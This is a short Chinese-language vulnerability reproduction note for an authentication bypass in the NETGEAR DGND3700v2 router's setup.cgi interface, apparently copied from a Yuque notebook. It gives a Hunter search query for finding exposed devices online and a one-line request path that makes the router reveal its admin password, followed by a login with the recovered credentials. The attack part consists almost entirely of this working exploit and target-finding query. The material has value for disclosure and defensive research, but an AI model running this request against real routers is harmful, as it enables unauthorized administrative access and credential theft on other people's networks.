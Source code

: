# NETGEAR DGND3700v2 路由器 setup.cgi 接口身份认证绕过漏洞

# 一、漏洞简介
NETGEAR DGND3700v2 是一款高效的企业路由器，NETGEAR DGND3700v2 存在身份认证绕过漏洞，攻击者可利用漏洞读取用户账号密码，访问敏感信息页面。

# 二、影响版本
+ NETGEAR DGND3700v2

# 三、资产测绘
+ hunter`web.title="DGND3700v2"`

# 四、漏洞复现
```java
/setup.cgi?next_file=passwordrecovered.htm&foo=currentsetting.htm
```

![1702017292533-6337aabc-a1b3-455f-acee-a10ad3c20dfc.png](./img/frUEBsj0hfsCuNcA/1702017292533-6337aabc-a1b3-455f-acee-a10ad3c20dfc-883162.png)

通过上述密码登录系统

`admin/password`

![1702017321828-68b8d415-f1e3-459a-aec6-0ba1bbeedea3.png](./img/frUEBsj0hfsCuNcA/1702017321828-68b8d415-f1e3-459a-aec6-0ba1bbeedea3-446432.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nfl28ku7srgz3zrl>